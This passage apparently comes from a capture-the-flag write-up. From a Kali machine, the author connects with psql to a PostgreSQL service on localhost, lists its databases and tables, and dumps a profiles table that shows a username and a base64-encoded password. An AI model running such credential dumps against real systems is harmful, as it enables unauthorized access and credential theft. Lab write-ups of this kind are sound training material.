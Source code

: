 
Now I’ll use a local `psql` to connect:

    
    
    root@kali# psql -h 127.0.0.1 -p 5432 -U profiles                                                                                                                                                                                      
    Password for user profiles: 
    psql (11.5 (Debian 11.5-1), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
    Type "help" for help.
    
    profiles=>
    

I can list the dbs:

    
    
    profiles=> \list
                                 List of databases
       Name    |  Owner   | Encoding | Collate | Ctype |   Access privileges   
    -----------+----------+----------+---------+-------+-----------------------
     gitlab    | postgres | UTF8     | C       | C     | =Tc/postgres         +
               |          |          |         |       | postgres=CTc/postgres+
               |          |          |         |       | gitlab=CTc/postgres
     postgres  | postgres | UTF8     | C       | C     | 
     profiles  | postgres | UTF8     | C       | C     | =Tc/postgres         +
               |          |          |         |       | postgres=CTc/postgres+
               |          |          |         |       | profiles=CTc/postgres
     template0 | postgres | UTF8     | C       | C     | =c/postgres          +
               |          |          |         |       | postgres=CTc/postgres
     template1 | postgres | UTF8     | C       | C     | =c/postgres          +
               |          |          |         |       | postgres=CTc/postgres
    (5 rows)
    

I can list tables in the current db, profiles:

    
    
    profiles=> \dt
              List of relations
     Schema |   Name   | Type  |  Owner   
    --------+----------+-------+----------
     public | profiles | table | profiles
    (1 row)
    

I’ll grab everything from the one table:

    
    
    profiles=> select * from profiles;
     id | username |        password        
    ----+----------+------------------------
      1 | clave    | c3NoLXN0cjBuZy1wQHNz==
    (1 row)
    